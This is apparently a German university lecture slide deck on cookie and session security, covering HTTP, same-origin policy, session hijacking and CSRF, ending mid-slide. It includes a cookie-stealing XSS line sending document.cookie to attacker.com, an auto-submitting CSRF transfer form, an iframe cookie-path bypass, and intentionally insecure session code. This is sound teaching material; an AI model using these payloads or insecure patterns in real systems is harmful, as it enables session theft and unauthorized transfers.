



## Cookie und Session-Sicherheit {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  


---

## Agenda {.content-slide .agenda-slide}
<br>

<ul class="agenda">
<li class="agenda-item"><strong>01</strong><span>HTTP-Grundlagen</span></li>
<li class="agenda-item"><strong>02</strong><span>Cookies and Sessions</span></li>
<li class="agenda-item"><strong>03</strong><span>Same-Origin-Policy (SOP)</span></li>
<li class="agenda-item"><strong>04</strong><span>Session Attacks</span></li>
<li class="agenda-item"><strong>05</strong><span>Cross-Site Request Forgery (CSRF)</span></li>
<li class="agenda-item"><strong>06</strong><span>Cookie Security</span></li>
<li class="agenda-item"><strong>07</strong><span>Literatur</span></li>
</ul>

---

## Lernziele {.content-slide .pdf-slide}
<br>

#### Nach dieser Vorlesung können Sie:  

1. HTTP-Requests und -Responses lesen und verstehen   
2. Erklären, wie Cookies funktionieren und welche Attribute   sicherheitsrelevant sind   
3. Die Same-Origin-Policy definieren und von Cookie-Scoping unterscheiden    
4. Session Hijacking und dessen Gegenmaßnahmen beschreiben    
5. CSRF-Angriffe erklären und Verteidigungsstrategien benennen    

---

## Warum HTTP verstehen? {.content-slide .pdf-slide}
<br>

- Web-Sicherheit basiert auf dem Verständnis von HTTP
- Cookies, Sessions und Angriffe nutzen HTTP-Mechanismen
- Browser und Server kommunizieren über HTTP-Nachrichten

::: {.callout-tip title="HTTP = HyperText Transfer Protocol"}
- Zustandsloses Request-Response-Protokoll
- Client (Browser) sendet Request → Server antwortet mit Response
:::

---

## HTTP-Request-Struktur {.content-slide .code-slide}
<br>

#### Aufbau eines HTTP-Requests

```{.html code-line-numbers="|1|2-5|7"}
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123
User-Agent: Mozilla/5.0

username=alice&password=geheim
```
<br>

- Zeile 1: Methode, Pfad, HTTP-Version
- Zeile 2–5: Header (Key-Value-Paare)
- Nach Leerzeile: Body (optional, bei POST/PUT)

---

## HTTP-Response-Struktur {.content-slide .code-slide}
<br>

#### Aufbau einer HTTP-Response

```{.html code-line-numbers="|1|2-4|6"}
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=xyz789; Secure; HttpOnly
Date: Tue, 24 Sep 2024 10:30:00 GMT

<!DOCTYPE html><html>...</html>
```
<br>

- Zeile 1: HTTP-Version, Statuscode, Statustext
- Zeile 2–4: Response-Header
- Nach Leerzeile: Body (HTML, JSON, etc.)


---

## HTTP-Methoden {.content-slide .pdf-slide}
<br>

| Methode | Verwendung |
| --|--|
|GET          |      Daten abrufen (keine Seiteneffekte)|
|POST     |          Daten senden/erstellen (Login, Formulare)|
|PUT         |       Ressource ersetzen/aktualisieren|
|DELETE      |       Ressource löschen|

<br>

::: {.callout-important title="Sicherheitsrelevant"}
- GET-Requests: Parameter in URL sichtbar (Logs, History)
- POST-Requests: Parameter im Body (nicht in URL)
- CSRF-Angriffe nutzen diese Unterschiede aus (später mehr)

:::


---

## HTTP vs. HTTPS {.content-slide .pdf-slide}
<br>

:::: {.columns}
::: {.column width="50%"}
::: {.callout-note title="HTTP (Port 80)"}
- Klartext-Übertragung
- Abhörbar (Man-in-the-Middle)
- Manipulierbar
:::
:::

::: {.column width="50%"}
::: {.callout-note title="HTTPS (Port 443)"}
- TLS-verschlüsselt
- Vertraulichkeit
- Integrität
- Server-Authentizität
:::
:::
::::


::: {.callout-tip title="Für Web-Security"}
- Secure-Flag bei Cookies erzwingt HTTPS
- Ohne HTTPS: Session Hijacking trivial möglich (Firesheep)
:::


---

## Was sind Cookies? {.content-slide .image-slide}
<br>


---

## Was sind Cookies? {.content-slide .pdf-slide}
<br>

- Kleine Textdateien, die auf dem Rechner des Benutzers gespeichert werden
- Werden vom Webserver an den Browser gesendet
- Werden vom Browser gespeichert und bei jedem weiteren Besuch der Seite an den Server
gesendet
- Können Informationen über den Benutzer enthalten

---

## Was sind Cookies? {.content-slide .code-slide}
<br>

#### Server-Antwort auf Anfrage

<span class="annotated">
  <span class="part"><span class="c-header">Set-Cookie:</span><span class="label c-header">HeaderName</span></span>
  <span class="part"><span class="c-name">theme</span><span class="label c-name">CookieName</span></span>
  <span class="part"><span class="c-plain">=</span></span>
  <span class="part"><span class="c-value">dark</span><span class="label c-value">CookieWert</span></span>
  <span class="part"><span class="c-plain">;</span></span>
</span>

<br>

#### Folgende Client-Anfrage enthalten

<span class="annotated">
  <span class="part"><span class="c-header">Cookie:</span><span class="label c-header">HeaderName</span></span>
  <span class="part"><span class="c-name">theme</span><span class="label c-name">CookieName</span></span>
  <span class="part"><span class="c-plain">=</span></span>
  <span class="part"><span class="c-value">dark</span><span class="label c-value">CookieWert</span></span>
  <span class="part"><span class="c-plain">;</span></span>
</span>

---

## Sessions {.content-slide .pdf-slide}
<br>

- Cookies können verwendet werden, um Sessions zu realisieren
- Ziel: Server behält Daten, die sich auf die gegenwärtige Sitzung des Nutzers beziehen
- Beispiele:
     - Warenkorb in einem Online-Shop
     - Anmeldung an einer Webseite
     - User Tracking

---

## Beispiel: Unsichere Session I {.content-slide .code-slide}
### HTML
<br>

```html
 1     <!doctype html>
 2     <html lang='en'>
 3     <head>
 4         <meta charset='utf-8' />
 5         <title>My Cool Site</title>
 6     </head>
 7     <body>
 8         <h1>Bank login:</h1>
 9         <form method='POST' action='/login'>
10             Username:
11             <input name='username' /><br />
12             Password:
13             <input name='password' type='password' /><br />
14             <input type='submit' value='Login' />
15         </form>
16     </body>
17     </html>
```

---

## Beispiel: Unsichere Session I {.content-slide .code-slide}
### JavaScript I
<br>

```html
 1     const express = require('express')
 2     const { createReadStream } = require('fs')
 3     const cookieParser = require('cookie-parser')
 4     const app = express()
 5
 6     app.use(cookieParser())
 7     app.use(express.urlencoded({ extended: false }))
 8
 9     // Routes go here!
10
11     app.listen(8000)
```

---

## Beispiel: Unsichere Session I {.content-slide .code-slide}
### JavaScript II
<br>

```html
13     const USERS = { alice: 'password', bob: '50505' }
14     const BALANCES = { alice: 500, bob: 100 }
15
16     app.get('/', (req, res) => {
17         const { username } = req.cookies
18         if (username) {
19             res.send(`
20                 <h1>Welcome, ${username}</h1>
21                 <p>Your balance is $${BALANCES[username]}</p>
22             `)
23         } else {
24             createReadStream('index.html').pipe(res)
25         }
```

---

## Beispiel: Unsichere Session I {.content-slide .code-slide}
### JavaScript III
<br>

```html
28     app.post('/login', (req, res) => {
29         const { username } = req.body
30         const { password } = req.body
31         if (password === USERS[username]) {
32             res.cookie('username', username)
33             res.redirect('/')
34         } else {
35             res.send('fail!')
36         }
37     })
38
39     app.get('/logout', (req, res) => {
40         res.clearCookie('username')
41         res.redirect('/')
42     })
```

---

## Beispiel Unsichere Session {.content-slide .code-slide}
### HTTP Kommunikation
<br>


#### Erster HTTP Request

```html
       POST /login HTTP/1.1
       Host: example.com
       username=alice&password=password
```

#### HTTP Response

```html
       HTTP/1.1 200 OK
       Set-Cookie: username=alice
       Date: Tue, 24 Sep 2019 20:30:00 GMT ...
```

#### Zukünftige HTTP Requests

```html
       GET /page.html HTTP/1.1
       Host: example.com
       Cookie: username=alice;
```

---

## Ambient Authority {.content-slide .pdf-slide}
<br>

- **Zugriffskontrolle:** Bestimmt wer welche Ressourcen einsehen kann und welche Aktionen
erlaubt sind
- **Ambient Authority:** Zugriffskontrolle basieren auf globalen und persistenten Eigenschaften
des Anfragenden
     - Alternative: Explizite Autorisierung für jede Anfrage
- Vier Arten von Ambient Authority:
     - Cookies
     - IP-Adressvalidierung
     - Eingebaute HTTP-Authentifizierung (sehr selten in der Praxis)
     - Client-Zertifikate (sehr selten in der Praxis)

---

## Signatur-Schemata für Cookies {.content-slide .pdf-slide}
<br>

#### Drei Algorithmen (G, S, V)
- G () → k: Generierung eines Schlüssels
- S (k, x) → t: Signieren einer Nachricht x mit Schlüssel k in Form eines Tags t.
- V (k, x, t) → {accept|reject}: Verifizieren eines Tags t für eine Nachricht x mit Schlüssel k.

#### Korrektheitseigenschaft
- V (k, x, S (k, x)) = accept sollte immer gelten

#### Sicherheitseigenschaft
- V (k, x, t) = accept sollte fast nie gelten, wenn x und t durch den Angreifer gewählt wurden

---

## Session Cookie Visualisierung {.content-slide .code-slide}

:::: {.columns}
::: {.column width="62%"}
```{mermaid}
sequenceDiagram
    participant C as Client
    participant S as Server

    C->>S: POST /login HTTP/1.1<br>username=alice&password=password
    Note right of S: G() -> k
    Note right of S: Login info ok? OK!
    Note right of S: S(k, 'alice') -> t
    S->>C: HTTP/1.1 200 OK<br>Set-Cookie: username=alice<br>Set-Cookie: tag=t

    loop Bei jedem weiteren Request
        C->>S: GET / HTTP/1.1<br>Cookie: username=alice, tag=t
        Note right of S: V(k, 'alice', t) -> ok? OK!
        S->>C: HTTP/1.1 200 OK<br>Private webpage for Alice
    end
```
:::

::: {.column width="38%"}
::: {.fragment}
**1. Login**  
Client sendet Zugangsdaten an den Server.
:::

::: {.fragment}
**2. Schlüssel erzeugen**  
Server erzeugt geheimen Schlüssel `k` und prüft die Login-Daten.
:::

::: {.fragment}
**3. Signieren**  
Server signiert den Usernamen: `S(k, 'alice') → t` und schickt beide Cookies zurück.
:::

::: {.fragment}
**4. Folge-Request**  
Client sendet die Cookies bei jedem weiteren Aufruf mit.
:::

::: {.fragment}
**5. Verifizieren**  
Server prüft die Signatur: `V(k, 'alice', t) → ok?` und liefert die private Seite.
:::
:::
::::

---


## Session Cookie Visualisierung {.content-slide .code-slide}

```{mermaid}
sequenceDiagram
    participant C as Client
    participant S as Server

    C->>S: POST /login HTTP/1.1<br>username=alice&password=password
    Note right of S: G() -> k
    Note right of S: Login info ok? OK!
    Note right of S: S(k, 'alice') -> t
    S->>C: HTTP/1.1 200 OK<br>Set-Cookie: username=alice<br>Set-Cookie: tag=t

    loop Bei jedem weiteren Request
        C->>S: GET / HTTP/1.1<br>Cookie: username=alice, tag=t
        Note right of S: V(k, 'alice', t) -> ok? OK!
        S->>C: HTTP/1.1 200 OK<br>Private webpage for Alice
    end
```


---

## Beispiel: Unsichere Session II {.content-slide .code-slide}
### JavaScript I
<br>


```html
 1     const COOKIE_SECRET = 'G2T7SRHTX1T62DHR'
 2     app.use(cookieParser(COOKIE_SECRET))
 3
 4     app.get('/', (req, res) => {
 5         const { username } = req.signedCookies
 6         if (username) {
 7             res.send(`
 8                  <h1>Welcome, ${username}</h1>
 9                  <p>Your balance is $${BALANCES[username]}</p>
10                  `)
11         } else {
12             createReadStream('index.html').pipe(res)
13         }
14     })
```

---

## Beispiel: Unsichere Session II {.content-slide .code-slide}
### JavaScript II
<br>

```html
16     app.post('/login', (req, res) => {
17         const { username } = req.body
18         const { password } = req.body
19         if (password === USERS[username]) {
20             res.cookie('username', username, { signed: true })
21             res.redirect('/')
22         } else {
23             res.send('fail!')
24         }
25     })
26     app.get('/logout', (req, res) => {
27         res.clearCookie('username')
28         res.redirect('/')
29     })
```

---

## Beispiel: Unsichere Session III {.content-slide .code-slide}
### JavaScript I
<br>

```html
 1     let nextSessionId = 1
 2     const SESSIONS = {} // sessionId -> username
 3
 4     app.get('/', (req, res) => {
 5         const { sessionId } = req.cookies
 6         const username = SESSIONS[sessionId]
 7         if (username) {
 8             res.send(`
 9                  <h1>Welcome, ${username}</h1>
10                  <p>Your balance is $${BALANCES[username]}</p>
11                  `)
12         } else {
13             createReadStream('index.html').pipe(res)
14         }
15     })
```

---

## Beispiel: Unsichere Session III {.content-slide .code-slide}
### JavaScript II
<br>

```html
17     app.post('/login', (req, res) => {
18         const { username } = req.body
19         const { password } = req.body
20         if (password === USERS[username]) {
21             SESSIONS[nextSessionId] = username
22             res.cookie('sessionId', nextSessionId)
23             nextSessionId += 1
24             res.redirect('/')
25         } else {
26             res.send('fail!')
27         }
28     })
29     app.get('/logout', (req, res) => {
30         const { sessionId } = req.cookies
31         delete SESSIONS[sessionId]
32         res.clearCookie('username')
33         res.redirect('/')
34     })
```

---

## Beispiel: Sichere Session {.content-slide .code-slide}
### JavaScript I
<br>

```html
 1     const { randomBytes } = require('crypto')
 2
 3     const SESSIONS = {} // sessionId -> username
 4
 5     app.get('/', (req, res) => {
 6         const sessionId = req.cookies.sessionId
 7         const username = SESSIONS[sessionId]
 8         if (username) {
 9             res.send(`Hi ${username}. Your balance is $${BALANCES[username]}.`)
10         } else {
11             createReadStream('index.html').pipe(res)
12         }
13     })
```

---

## Beispiel: Sichere Session {.content-slide .code-slide}
### JavaScript II
<br>

```html
15     app.post('/login', (req, res) => {
16         const username = req.body.username
17         const password = USERS[username]
18         if (password === req.body.password) {
19             const sessionId = randomBytes(16).toString('hex')
20             SESSIONS[sessionId] = username
21             res.cookie('sessionId', sessionId)
22             res.redirect('/')
23         } else {
24             res.send('fail!')
25         }
26     })
27     app.get('/logout', (req, res) => {
28         const sessionId = req.cookies.sessionId
29         delete SESSIONS[sessionId]
30         res.clearCookie('sessionId')
31         res.redirect('/')
32     })
```

---

## Sessions: Wünschenswerte Eigenschaften {.content-slide .pdf-slide}
<br>

- Browser erinnert sich an Nutzer, so dass sich dieser nicht ständig neu einloggen muss
- Nutzer können den Session-Cookie nicht manipulieren, um sich als jemand anderes
auszugeben
- Session-Cookies sind nicht ewig gültig
- Session-Cookies können auf dem Server gelöscht werden
- Session-Cookies sollten nach einer vorgegebenen Zeit ablaufen (z. B. 30 Tage)

---

## Geschichte der Cookies {.content-slide .pdf-slide}
<br>

#### Standardisierungsprozess
- **1994:** Erste Implementierung in Netscape Navigator 0.9 Beta – beschrieben als vier Seiten
Entwurfsdokument
- **1995:** RFC 2109 Entwurf für einen (inkompatiblen) Standard
- **1997:** RFC 2965 Versuch einer auf RFC 2109 basierenden Standardisierung. Wegen
Inkombatibilität gescheitert.
- **2000:** RFC 2964 Erneuter Versuch („Cookie2“). Wegen der gleichen Probleme gescheitert.
- **2011:** RFC 6265 Erfolgreiche Standardisierung (Kompatibel zu Netscape Cookie
Spezifikation)
<br>

⇒ 17 Jahre bis zur Standardisierung !!!
<br>

-Ad-hoc Entwicklung führte zu „interessanten“ Problemen

---

## Wie löscht man ein Cookie? {.content-slide .pdf-slide}
<br>

- Direktes Löschen des Cookies ist nicht möglich
- Cookie mit gleichem Namen und Pfad, aber Ablaufdatum in der Vergangenheit setzen

```hmtl
extttSet − Cookie : key =; Expires = Thu, 01Jan197000 : 00 : 00GMT
```

---

## Grundlegende Cookie-Attribute {.content-slide .pdf-slide}
<br>

- **Expires** definiert das Ablaufdatum des Cookies. Ist das Datum nicht gesetzt, wird das
Cookie beim Schließen des Browsers gelöscht.

- **Path** schränkt das Cookie auf einen bestimmten Pfad-Prefix ein. Wird kein Pfad gesetzt, gilt
das Cookie für die gesamte Domain.
     - Beispiel: Path=/docs matcht /docs und /docs/web/

- **Domain** definiert die Domain, für die das Cookie gültig ist. Ist kein Domain-Attribut gesetzt, gilt das Cookie nur für die aktuelle Domain.
     - Ermöglicht das Setzen einer breiteren Domain (z.B. .example.com) von einer Subdomain(z.B. www.example.com)
     - z. B. informatik.htw-dresden.de kann Cookies für htw-dresden.de setzen

- Anmerkung: Path und Domain verletzen die Same-Origin-Policy
     - Path nicht nutzen, um Cookies vor anderen Seiten der gleichen Domain zu schützen.
     - Durch Nutzung von Domain können Cookies für andere Quelldomains gesetzt werden.

---

## Cookies von JavaScript auslesen {.content-slide .code-slide}
<br>

```html
 1     document.cookie = 'name=Lukas'
 2     document.cookie = 'favoriteFood=Cookies'
 3
 4     document.cookie
 5     // 'name=Lukas; favoriteFood=Cookies;'
 6
 7     document.cookie = 'name=; Expires=Thu, 01 Jan 1970 00:00:00 GMT'
 8
 9     document.cookie
10     // 'favoriteFood=Cookies;'
```

---

## Was ist ein Origin? {.content-slide .pdf-slide}
<br>

::: {.callout-note title="Definition: Origin"}
Ein **Origin** besteht aus drei Komponenten:
1. Protokoll (Schema): http oder https
2. Host (Domain): example.com
3. Port: 80, 443, 8080, ...
:::
<br>

::: {.callout-tip title="Beispiel"}
https://www.example.com:443/path/page.html    
Origin = https://www.example.com:443
:::

---

## Same-Origin-Policy – Grundprinzip {.content-slide .pdf-slide}
<br>

::: {.callout-important title="Kernregel"}
Scripts einer Webseite dürfen nur auf Ressourcen zugreifen, die vom selben Origin stammen.
:::
<br>

- Eingeführt in Netscape Navigator 2.0 (1995)
- Fundamentales Sicherheitskonzept im Web
- Verhindert, dass bösartige Seiten Daten von anderen Seiten stehlen
<br>

::: {.callout-note title="Ohne SOP wäre möglich:"}
- evil.com liest Ihre E-Mails von gmail.com
- evil.com führt Überweisungen auf bank.com durch
- evil.com liest Ihren Facebook-Feed
:::

---

## Origin-Vergleich – Beispiele {.content-slide .pdf-slide}
<br>

Ausgangs-URL: https://www.example.com/page.html
<br>


| URL   |    Gleicher Origin?       |        Grund |
|--|--|--|
https://www.example.com/other.html  | Ja    |   Nur Pfad anders
https://www.example.com/dir/page.html |                                 Ja          |                   Nur Pfad anders
http://www.example.com/page.html |                                       Nein     |                      Protokoll
https://example.com/page.html           |                               Nein                     |      Host (www fehlt)
https://www.example.com:8080/page.html   |                              Nein         |                  Port
https://api.example.com/page.html   |                                   Nein                 |          Host (Subdomain)

---

## Was kontrolliert die SOP? {.content-slide .pdf-slide}
<br>

#### DOM-Zugriff
- Scripts können nur das DOM von Seiten des gleichen Origins lesen/manipulieren

#### XMLHttpRequest / Fetch API
- AJAX-Requests nur an den gleichen Origin (außer mit CORS)

#### Web Storage
- localStorage und sessionStorage sind origin-spezifisch

#### Wichtig: Cookies folgen NICHT der SOP!
- Cookies haben ein eigenes, älteres Sicherheitsmodell:
     - Basiert auf Domain + Path (Port wird ignoriert!)
     - Deshalb brauchen wir Secure, HttpOnly, SameSite

---

## SOP vs. Cookie-Scoping {.content-slide .pdf-slide}
<br>

:::: {.columns}
::: {.column width="50%"}
::: {.callout-note title="Same-Origin-Policy"}
- Protokoll
- Host (exakt)
- Port
:::
:::

::: {.column width="50%"}
::: {.callout-note title="Cookie-Scoping"}
- Domain (+ Subdomains)
- Path
- Port ignoriert!     

Cookie für .example.com    
gilt auch für:   
www.example.com
api.example.com

:::
:::
::::


::: {.callout-tip title="Konsequenz"}
Diese Diskrepanz ist Ursache vieler Sicherheitsprobleme!
:::

---

## Session Hijacking {.content-slide .pdf-slide}
<br>

#### Unverschlüsselte Verbindung als Angriffsziel
- Cookies über eine unverschlüsselte Verbindung übertragen ist eine sehr dumme Idee    
     - Wenn ein Angreifer den Cookie sieht, kann er die Session des Nutzers übernehmen    
     - Angreifer schickt den Cookie des Opfers, als wäre es sein eigener     
     - Der Server kann den Unterschied nicht erkennen     

---

## Session Authentifizierung ohne Angreifer {.content-slide .code-slide}

:::: {.columns}
::: {.column width="62%"}
```{mermaid}
sequenceDiagram
    participant C as Client
    participant A as Attacker
    participant S as Server

    C->>S: GET / HTTP/1.1<br>Cookie: sessionID=1234
    Note over C,S: Angreifer liest die sessionID mit
    A->>S: GET / HTTP/1.1<br>Cookie: sessionID=1234
    S->>A: HTTP/1.1 200 OK<br>Private webpage!
```
:::

::: {.column width="38%"}
::: {.fragment}
**1. Legitimer Request**  
Der Client sendet seinen Request mit der gültigen `sessionID=1234`.
:::

::: {.fragment}
**2. Abgreifen**  
Der Angreifer schnappt sich die sessionID (z.B. per XSS oder Netzwerk-Sniffing).
:::

::: {.fragment}
**3. Identität übernehmen**  
Der Angreifer schickt einen eigenen Request mit der **gestohlenen** sessionID.
:::

::: {.fragment}
**4. Voller Zugriff**  
Der Server kann die beiden nicht unterscheiden und liefert die private Seite aus.
:::
:::
::::

                                                                           
---


## Firesheep – 2010 gab es dafür sogar eine Firefox-Erweiterung {.content-slide .image-slide}




---

## Firesheep – 2010 gab es dafür sogar eine Firefox-Erweiterung {.content-slide .image-slide}




---

## Firesheep – 2010 gab es dafür sogar eine Firefox-Erweiterung {.content-slide .image-slide}




---

## Verteidigung {.content-slide .code-slide}
<br>

#### HTTPS verwenden
- Das Secure-Attribut von Cookies nutzen. Dieses verhindert, dass Cookies über
unverschlüsselte HTTP-Verbindungen übertragen werden.

```html
Set-Cookie: key=value; Secure
```

- Noch besser, ganze Website über HTTPS betreiben

---

## Session Hijacking mittels Cross-Site Scripting (XSS) {.content-slide .pdf-slide}
<br>

::: {.callout-important title="Risiko"}
- Was wenn die Website anfällig für XSS ist?
     - Angreifer kann seinen Code in die Website einschleusen
     - Code kann Cookies auslesen und an den Angreifer senden

```html
new Image().src = "http://attacker.com/steal?cookie=" +
     document.cookie;
```

- Mehr zu XSS folgt
:::

::: {.callout-tip title="Schutz"}
- HttpOnly-Attribut von Cookies nutzen, das verhindert, dass Cookies über JavaScript
gelesen werden können:

```html
extttSet − Cookie : key = value; Secure; HttpOnly
```
:::

---

## Cookie Path Bypass {.content-slide .pdf-slide}
<br>

- Path-Attribut nicht für Security nutzen
- Path schützt nicht gegen unautorisiertes Lesen eines Cookies von einem anderen Pfad der 
gleichen Domain
     - Kann mittels eines &lt;iframe&gt; umgangen werden, in dem der Pfad des Cookies explizit angegeben wird
     - Cookie im iframe kann mittels JavaScript ausgelesen werden: iframe.contentDocument.cookie
     - Die Same-Origin-Policy erlaubt dies     

⇒ Path nur für Performance-Optimierung nutzen

---

## Demo {.content-slide .code-slide}
<br>

#### Opferseite

```html
document.cookie = 'sessionId=1234; Path=/class/programmierung/'
```

#### Angreiferseite

```html
const iframe = document.createElement('iframe')
iframe.src = 'https://lukas.ifflaender-family.de/class/programmierung/'
document.body.appendChild(iframe)
iframe.style.display = 'none'

// wait for document to load... then run
console.log(iframe.contentDocument.cookie)
```

---

## Was machen wir jetzt mit dem Cookie-Path? {.content-slide .code-slide}
<br>

#### Wie bekommt man den Cookie-Path sicher?
- Gar nicht! Pfad ist nicht sicher
- Same-Origin-Policy
     - Seiten der gleichen Herkunft können gegenseitig auf ihre Cookies zugreifen (und viel mehr)

#### Auf welchen Wert sollte man den Cookie-Path setzen?
- Standardmäßig wird der Pfad der Anfrage genommen, z. B. /class/programmierung
- Wenn man akzeptiert, dass Path nicht sicher ist, kann man auch auf / setzen, um nicht in
Versuchung zu kommen, dies als Security-Attribut zu nutzen.

```html
Set-Cookie: key=value; Secure; HttpOnly; Path=/
```

---

## Domain Attribut bietet auch keine ausreichende Sicherheit {.content-slide .pdf-slide}
<br>

- Cookies können nur von gleichen oder spezifischeren Domains erreicht werden
- `informatik.htw-dresden.de vs etechnik.htw-dresden.de`     
Schließen sich gegenseitig aus
- `informatik.htw-dresden.de vs htw-dresden.de`     
Erstere Domain kann auf Cookies der zweiten lesend und schreibend zugreifen
- `informatik.htw-dresden.de vs login.htw-dresden.de`     
Schließen sich gegenseitig aus

---

## Cookies gehorchen der Same-Origin-Policy nicht {.content-slide .pdf-slide}
<br>

- Cookies wurden vor der Same-Origin-Policy entwickelt und haben ein anderes
Sicherheitsmodell
- Cookies sind restriktiver als die Same-Origin-Policy:
     - Path partitioniert Cookies nach dem Pfad, ist aber ineffektiv, weil Seiten der gleichen Herkunft auf das Document Object Model gegenseitig zugreifen und Code ausführen können
- Cookies sind weniger restriktiv als die Same-Origin-Policy:
     - Seiten mit dem gleichen Hostnamen teilen sich Cookies. Protokoll und Port werden ignoriert.
     - Unterschiedliche Herkünfte können gegenseitig auf ihre Cookies einwirken.     
     `informatik.htw-dresden.de` kann Cookies für htw-dresden.de setzen.
     - Grund, warum Logins oft unter einer anderen Sub-Domain stattfinden.

---

## Probleme bei Ambient Authority {.content-slide .code-slide}
<br>

- Erinnerung: Ambient Authority ist durch Cookies implementiert
- Stellen wir uns folgendes in attacker.com integrierte HTML vor:

```html
<h1>Welcome to your account!</h1>

```

- Der Browser sendet die bank.com-Cookies bei allen Anfragen an bank.com mit, obwohl
die Anfrage von `attacker.com` ausgelöst wurde
- `attacker.com` kann den Nutzeravatar von bank.com laden und einbinden

---

## Probleme bei Ambient Authority II {.content-slide .code-slide}
<br>

- Unklar, welche Seite die Anfrage initiiert hat
B- eispiel-HTML integriert in attacker.com:

```html

```

- Der Browser sendet die bank.com-Cookies bei allen Anfragen an bank.com mit, obwohl
die Anfrage von attacker.com ausgelöst wurde
- `attacker.com` kann Aktionen auf bank.com ausführen, indem die eingeloggte Sitzung
des Opfers genutzt wird

---

## Cross-Site Request Forgery (CSRF) {.content-slide .pdf-slide}
<br>

- Angriffsart, die Endnutzer dazu bringt, ungewünschte Aktionen in einer Webanwendung auszuführen, in der sie gerade authentifiziert sind
- Normale Nutzer: CSRF-Attacken können Nutzer dazu bringen, Geld zu überweisen,
Mail-Adressen oder Passwörter zu ändern, etc.
- Administratoren: CSRF-Attacken können Admins dazu bringen, Nutzer zu löschen, Rechte
zu ändern, oder andere administrative Aktionen auszuführen
- Angriffe sind wirksam, auch wenn der Angreifer die HTTP-Antwort nicht lesen kann

---

## CSRF-Demo {.content-slide .code-slide}
### Server-JavaScript I
<br>

```html
 1     const BALANCES = { alice: 500, bob: 100 }
 2     app.get('/', (req, res) => {
 3         const { sessionId } = req.cookies
 4         const username = SESSIONS[sessionId]
 5         if (username) {
 6             res.send(`
 7                 <h1>Welcome, ${username}</h1>
 8                 <p>Your balance is $${BALANCES[username]}</p>
 9                 <p><a href='/logout'>Logout</a></p>
10                 <form method='POST' action='/transfer'>
11                     Send amount:<input name='amount' />
12                     To user:<input name='to' />
13                     <input type='submit' value='Send' />
14                 </form>`)
15         } else { createReadStream('index.html').pipe(res) }
16     })
```

---

## CSRF-Demo {.content-slide .code-slide}
### Server-JavaScript II
<br>

```html
18     app.post('/transfer', (req, res) => {
19         const { sessionId } = req.cookies
20         const username = SESSIONS[sessionId]
21
22            if (!username) {
23                res.send('Only logged in users can transfer money')
24                return
25            }
26
27            const amount = Number(req.body.amount)
28            const to = req.body.to
29            BALANCES[username] -= amount
30            BALANCES[to] += amount
31
32            res.redirect('/')
33     })
```

---

## CSRF-Demo {.content-slide .code-slide}
### Server-HTML
<br>

#### attacker.com:9999

```html
      <h1>Cool cat site</h1>
      
      <iframe src='attacker-frame.html' style='display: none'></iframe>
```

#### attacker.com:9999/attacker-frame.html

```html
      <form method='POST' action='http://bank.com:8000/transfer'>
          <input name='amount' value='100' />
          <input name='to' value='alice' />
          <input type='submit' value='Send' />
      </form>
      <script>
          document.forms[0].submit()
     </script>
```

---

## Was tun gegen CSRF? {.content-slide .pdf-slide}
<br>

::: {.callout-tip title="Idee"}
Können wir „Ambient Authority“ blockieren, wenn die Anfrage von einer anderen Seite kommt?
:::

::: {.callout-note title="Referer Header"}
- Betrachte den Referer HTTP Header
- Alle Requests ablehnen, die nicht auf einer Whitelist sind
- Vorsicht: Caches
:::

---

## Referer-Header im Einsatz {.content-slide .code-slide}
## Referer-Header im Einsatz {.content-slide}

:::: {.columns}
::: {.column width="62%"}
```{mermaid}
sequenceDiagram
    participant C as Client (bank.com)
    participant S as Server (bank.com)
    participant H as HTTP-Cache
    participant A as Client (attacker.com)

    C->>S: POST /login HTTP/1.1<br>username=alice&password=password
    Note right of S: Login valid? OK!
    S->>C: HTTP/1.1 200 OK<br>Set-Cookie: sessionId=1234

    C->>S: GET /avatar.png HTTP/1.1<br>Cookie: sessionId=1234<br>Referer: https://bank.com
    Note right of S: Session valid? OK!
    Note right of S: Referer allowed? OK!
    S->>C: HTTP/1.1 200 OK<br>Cache-Control: public, max-age=31536000

    A->>H: GET /avatar.png HTTP/1.1<br>Cookie: sessionId=1234<br>Referer: https://bank.com
    H->>A: HTTP/1.1 200 OK
```
:::

::: {.column width="38%"}
::: {.fragment}
**1. Login**  
Der Client meldet sich bei `bank.com` an und bekommt die `sessionId=1234`.
:::

::: {.fragment}
**2. Geschützter Request**  
Der Client fordert `avatar.png` an – mit Cookie **und** `Referer: bank.com`.
:::

::: {.fragment}
**3. Doppelte Prüfung**  
Der Server prüft die Session **und** den Referer. Nur wenn beides stimmt, antwortet er.
:::

::: {.fragment}
**4. Cache-Falle**  
